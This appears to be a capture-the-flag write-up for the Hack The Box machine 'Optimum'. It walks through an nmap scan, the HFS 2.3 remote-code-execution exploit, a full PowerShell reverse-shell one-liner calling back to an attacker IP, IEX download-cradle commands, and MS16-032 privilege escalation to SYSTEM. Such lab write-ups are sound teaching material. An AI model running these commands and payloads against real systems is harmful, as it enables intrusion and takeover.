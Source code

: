 ![logo](/logo.png)

# [Optimum- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the sixth machine on HTB,Optimum created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](/Windows/Windows-Easy/Optimum/Screenshots/nmap.png)
```sh
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 14:58 EAT
Nmap scan report for 10.10.10.8
Host is up (0.31s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
```

looking at the results  we find out that there is 1 ports open and its a `HttpFileServer `and its running an `Apache server`. 

port[80]-  httpd 2.3

so looking at the page [http//:10.10.10.8](http://10.10.10.8) we find there is a login page 

![](/Windows/Windows-Easy/Optimum/Screenshots/landingpage.png)

when I try to login with default credential i find out that it fails but when i click at the HttpFileserver 2.3 it redirects to a [rejetto](http://www.rejetto.com/hfs/)

![](/Windows/Windows-Easy/Optimum/Screenshots/rejetto.png)

so we decide to search for the exploit 

# Exploitation

```sh
searchsploit HttpFileServer 2.3
```

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit.png)

as we can see their is an RCE exploit a python script so we examine the file

![](/Windows/Windows-Easy/Optimum/Screenshots/exploit.png)

we then set a pthon server  which will be used to get our exploit to the machine 

![](/Windows/Windows-Easy/Optimum/Screenshots/pythonserver.png)
we can see that it exploits with the `%00`  null bytes but this scripts generates for us a url to execute a reverse shell on the machine.

```sh
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/optimumpowershell.ps1')"
```

so we create a powershell reverse shell so that we can be able to execute and get a shell. You can get search shell from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for multiline and one line from [nishang](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1&ved=2ahUKEwidwsWIy-qHAxV4R_EDHS6ZD-kQjBB6BAguEAE&usg=AOvVaw1G_nxxPwS6B_yCRUM4Sd3U)

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

now we set a listener so as to get the revershell.

```sh
nc -nvlp 1337
```

then we get the  revershell 

![](/Windows/Windows-Easy/Optimum/Screenshots/reverse.png)

and we navigate with the python script generated above to the browser to get the shell.

![](/Windows/Windows-Easy/Optimum/Screenshots/browser.png)

we can then get the user flag from the user `kostas`

![](/Windows/Windows-Easy/Optimum/Screenshots/userflag.png)

now that we get to find the user flag we can now do a privillage escalation to find the root flag 

# Privillage Escalation

Just by looking at the `systeminfo` we get that their are hot fixes that where done to the machine

![](/Windows/Windows-Easy/Optimum/Screenshots/hotfix.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execute if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Easy/Optimum/Screenshots/sherlork.png)

and it appears that `ms16-032 and some other 2` are vulnerable

![](/Windows/Windows-Easy/Optimum/Screenshots/ms16.png)

so we search for an exploit using searchsploit and we get its vulnerabilty canbe done using different ways 

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit2.png)

after examining the code we find that it execute from cmd.exe now we find another exploit from [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) which has modification to execte from power shell. We just add the revershell at the end so that we can Invoke from the session again.

![](/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs016.png)
Now after that we set a new listner and we go and execute the from the session with this to get a shell of the `Nt Authority`

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/InvokeMs.ps1')
```

![](/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs.png)

now after executing that a setting a listner we get root

![](/Windows/Windows-Easy/Optimum/Screenshots/root.png)
now we get the root flag 

![](/Windows/Windows-Easy/Optimum/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------